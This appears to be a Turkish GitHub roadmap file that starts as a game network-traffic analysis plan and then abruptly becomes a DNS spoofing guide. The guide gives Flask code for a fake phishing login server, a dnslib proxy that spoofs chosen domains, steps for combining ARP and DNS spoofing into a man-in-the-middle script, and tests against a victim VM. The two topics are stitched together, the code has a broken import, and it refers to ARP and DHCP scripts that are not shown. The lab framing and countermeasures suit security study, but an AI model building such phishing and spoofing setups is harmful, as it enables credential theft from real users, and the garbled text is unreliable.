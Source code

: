 # ROADMAP.md: Python ile DNS Spoofing Özelliklerini Geliştirme ve Test Etme

## 1. Giriş
Bu proje, Counter-Strike: Global Offensive (CS:GO), Valorant ve PlayerUnknown's Battlegrounds (PUBG) gibi popüler çevrimiçi oyunların ağ bağlantılarını derinlemesine incelemeyi hedeflemektedir. Ana amaç, bu oyunlar sırasında kullanılan IP adreslerini, sunucuları, portları ve protokolleri tespit etmektir. Elde edilen veriler, oyun güvenliği araştırmaları, ağ performans analizi ve potansiyel zafiyet tespiti için temel oluşturacaktır.**

Bu rehber, DNS spoofing tekniklerini Python ile yeniden oluşturmayı, etik ve yasal sınırlar içinde kalarak kontrollü bir ortamda test etmeyi amaçlar.

## 2. Proje Vizyonu
** Projenin temel vizyonu, oyun ağ trafiği analizinde kapsamlı ve tekrarlanabilir bir metodoloji sunarak, araştırmacılar, güvenlik uzmanları ve oyun meraklıları için değerli bir kaynak olmaktır. Uzun vadede, bu projenin statik bir raporlama aracından, dinamik ve etkileşimli bir ağ analiz platformuna dönüşmesi hedeflenmektedir. Bu, sadece mevcut oyunları değil, gelecekteki çevrimiçi oyunları da analiz etmeye olanak tanıyan genişletilebilir bir yapıya sahip olacaktır. **

## 3. Tamamlanan Kilometre Taşı: V1.0 - Temel Ağ Analizi ve Raporlama
Bu aşama, projenin başlangıç hedeflerinin başarıyla tamamlandığı ilk temel sürümü temsil etmektedir.
  **Hedefler:**:
   - Seçilen popüler çevrimiçi oyunların (CS:GO, Valorant, PUBG) temel ağ bağlantı detaylarının (IP adresleri, portlar, kullanılan protokoller) tespiti ve belgelenmesi.
   - Bulguların README.md dosyasında açık ve anlaşılır bir şekilde sunulması.

### Tamamlanan Görevler:
  - Her bir hedef oyun için standart oyun senaryolarında (lobi, oyun içi, sunucu bağlantısı) Wireshark ile ağ trafiği yakalama süreçlerinin tanımlanması ve uygulanması.
  - Oyun trafiğini etkili bir şekilde izole etmek ve analiz etmek için özel Wireshark Capture Filters ve Display Filters setlerinin oluşturulması ve test edilmesi.
  - Yakalanan **.pcap** dosyaları üzerinde temel analizlerin yapılması ve kritik IP adresleri, port aralıkları ve ağ protokollerinin (UDP, TCP) belirlenmes
  - Projenin amacını, hedeflerini, kurulum adımlarını ve ilk bulguları içeren kapsamlı bir README.md dosyasının hazırlanması.
  - Tespit edilen IP/port/protokol bilgilerini özetleyen detaylı bir **Oyun Ağ Bağlantıları Analiz Tablosu**nun oluşturulması ve README.md'ye entegrasyonu.
  - İlgili araştırma notları için researchs/ klasörü altında ilk taslak Markdown dosyalarının oluşturulması (örn. csgo_network_analysis.md, wireshark_filters.md).
### Elde Edilen Çıktılar::
```
Temel oyun ağ bağlantı bilgilerini içeren ilk analiz raporu ve dokümantasyon.

Etkili ve çalışır durumda Wireshark yakalama/görüntüleme filtre setleri.

GitHub üzerinde, kolayca klonlanabilir ve anlaşılır bir yapıya sahip proje deposu.

```

## 4. Gelecek Kilometre Taşları
Projenin uzun vadeli potansiyelini gerçekleştirmek için planlanan gelecek aşamalar ve özellikler aşağıda listelenmiştir. 
Her bir aşama, projenin kabiliyetlerini ve değerini artırmayı hedeflemektedir.

### 4.1. V1.1 - Otomatik Veri İşleme ve Görselleştirme (Kısa Vadeli Hedef)
Bu aşama, manuel analiz süreçlerini otomatize etmeyi ve elde edilen ağ verilerini daha anlaşılır, 
görsel formatlarda sunmayı amaçlamaktadır.

### Hedefler:
   - Otomatik Pcap Analizi: Yakalanan .pcap dosyalarını Python kullanarak (örn. scapy, pyshark) otomatik olarak ayrıştıracak ve işleyecek scriptler geliştirmek.
   - Belirli portlardan geçen toplam paket sayısı ve veri hacmi istatistikleri.
   - En sık iletişim kurulan kaynak/hedef IP adresleri ve bunların bant genişliği kullanımları.
   - Paket boyutu dağılımlarının ve akış sürelerinin analizi.

### Veri Görselleştirme Modülü:
Analiz edilen verileri (trafik yoğunluğu, en aktif sunucular, port kullanım dağılımları vb.) dinamik ve statik grafikler (çubuk grafikler, pasta grafikleri, çizgi grafikler, ısı haritaları) aracılığıyla görselleştirmek için Python kütüphaneleri (matplotlib, seaborn, plotly) kullanmak.


### Sahte Web Sunucusu
Kimlik avı veya sahte içerik sunmak için bir web sunucusu oluşturun.

1. Flask’ı kurun: `pip install flask`
2. Basit bir Flask uygulaması yazın:

```python
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('fake_login.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

- `templates/fake_login.html` dosyası oluşturun (örneğin, bir giriş sayfası taklidi).

## Gelişmiş Geliştirmeler

### Seçmeli DNS Spoofing için DNS Proxy
DNSChef gibi belirli alan adlarını spoof eden bir DNS sunucusu oluşturun.

1. dnslib’i kurun: `pip install dnslib`
2. DNS proxy betiği:

```python
from dnslib import *
from dnslib.server import DNSServer, DNSHandler, BaseResolver
import dns.resolv

class SpoofResolver(BaseResolver):
    def resolve(self, request, handler):
        reply = request.reply()
        qname = str(request.q.qname)
        if qname in ['example.com.']:
            reply.add_answer(RR(qname, QTYPE.A, rdata=A('192.168.1.100'), ttl=60))
        else:
            # Gerçek DNS’e yönlendirme
            reply = DNSRecord.parse(dns.resolv.Resolver().query(request.q.qname, request.q.qtype).send())
        return reply

resolver = SpoofResolver()
server = DNSServer(resolver, port=53, address='0.0.0.0')
server.start_thread()
```

### Entegre MITM Betiği
Bettercap benzeri bir betikle ARP ve DNS spoofing’i birleştirin.

1. Yukarıdaki ARP ve DNS spoofing kodlarını birleştirin.
2. Yapılandırma dosyası veya komut satırı argümanlarıyla özelleştirin.

## Geliştirmelerin Test Edilmesi
1. **ARP Spoofing**:
   - Betiği çalıştırın.
   - Kurban VM’de ARP tablosunu kontrol edin (`arp -a`); ağ geçidinin MAC adresi saldırganınkiyle değişmiş olmalı.
2. **DNS Spoofing**:
   - Betiği çalıştırın.
   - Kurban VM’de bir alan adı çözümleyin (ör. `nslookup example.com`); sahte IP dönmeli.
3. **DHCP Manipülasyonu**:
   - Betiği çalıştırın.
   - Kurban VM’de IP kirasını yenileyin (`ipconfig /renew` veya `dhclient`); DNS sunucusu sahte IP olmalı.
4. **Sahte Web Sunucusu**:
   - Kurban VM’den sahte domaine erişin; sahte sayfa görüntülenmeli.

## Karşı Önlemler ve En İyi Uygulamalar
- **Statik ARP Girişleri**: ARP spoofing’i önler.
- **DNSSEC**: DNS sorgularını doğrular.
- **HTTPS Kullanımı**: Sertifika uyarılarına dikkat edin.
- **VPN**: Trafiği şifreler ve yerel manipülasyonları engeller.
- **İzole Test Ortamı**: Üretim ağlarında test yapmayın.

## Sonuç
Bu yol haritası, Python ile DNS spoofing özelliklerini geliştirmeyi ve test etmeyi adım adım açıklamıştır. Etik ve yasal sorumluluklara bağlı kalarak, bu bilgileri siber güvenliği güçlendirmek için kullanmaya devam edin.
